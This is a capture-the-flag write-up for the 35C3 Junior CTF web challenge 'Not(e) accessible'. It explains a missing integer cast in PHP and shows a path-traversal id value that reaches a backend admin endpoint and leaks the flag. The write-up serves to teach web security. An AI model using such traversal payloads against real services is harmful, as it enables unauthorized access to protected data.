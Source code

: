 # 35C3 Junior CTF – Not(e) accessible

* **Category:** Web
* **Points:** variable

## Challenge

> We love notes. They make our lifes more structured and easier to manage! In 2018 everything has to be digital, and that's why we built our very own note-taking system using micro services: Not(e) accessible! For security reasons, we generate a random note ID and password for each note.
>
> Recently, we received a report through our responsible disclosure program which claimed that our access control is bypassable...
>
> http://35.207.120.163
>
> Difficulty estimate: Easy-Medium

## Solution

If you try to submit a note (with spaces) an error will appear.

> ERROR! - Text does not match /^[a-zA-Z]+$/

If the text follows the shown regex, the note is inserted showing some info.

> Your note ID is 5779715767432985082
> Your note PW is 44a0cbcab0cdb0326be3b76b21bb25c9

> And the link to the note:
> http://35.207.120.163/view.php?id=5779715767432985082&pw=44a0cbcab0cdb0326be3b76b21bb25c9

Analyzing the HTML, you can find the following comment.

```HTML
<!-- My source is at /src.tgz -->
```

The archive contains both the frontend and the backend code.

Into the backend file `app.rb` you can discover the backend endpoint that must be called to retrieve the flag.

```Ruby
get '/admin' do
	File.read("flag.txt")
end
```

The code that can be abused is into frontend `view.php` file.

```PHP
if(file_exists("./pws/" . (int) $id . ".pw")) {
    if(file_get_contents("./pws/" . (int) $id . ".pw") == $_GET['pw']) {
        echo file_get_contents($BACKEND . "get/" . $id);
```

The `int` cast is not present everywhere, so the `id` parameter can be crafted like the following.

```
5779715767432985082/../../admin
```

With this parameter, the first two `if` statements will be true, because the result of the expression is the following, due to the fact that PHP will consider only the integer part for the cast.

```
./pws/5779715767432985082.pw
```

That result is a valid password file, the one created previously during the note submission.

The file_get_contents instruction will perform a HTTP GET call to the following backend endpoint.

```
$BACKEND/get/5779715767432985082/../../admin
```

That will be interpreted like `$BACKEND/admin`

Hence, the flag will be returned.

```
35C3_M1Cr0_S3rvices_4R3_FUN!
```